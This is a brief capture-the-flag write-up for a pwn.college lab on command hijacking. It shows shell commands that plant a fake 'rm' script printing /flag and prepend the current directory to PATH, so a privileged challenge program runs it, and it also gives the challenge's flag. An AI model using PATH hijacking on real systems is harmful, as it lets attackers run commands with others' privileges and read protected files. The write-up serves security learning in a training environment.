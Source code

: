 # Hijacking Commands
custom commands

## My solve
**Flag:** `pwn.college{MsgoA_ayBhFPLzvMcH_U-kjeoS3.QX3cjM1wCN1gjNzEzW}`

we set 'cat /flag' to rm and add it too the PATH list

```bash
hacker@path~hijacking-commands:~$ echo "cat /flag" > rm
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ export PATH="$(pwd):$PATH"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{MsgoA_ayBhFPLzvMcH_U-kjeoS3.QX3cjM1wCN1gjNzEzW}
```

## What i learned
clever use of adding commands to PATH lists

# Refrences
google for chmod command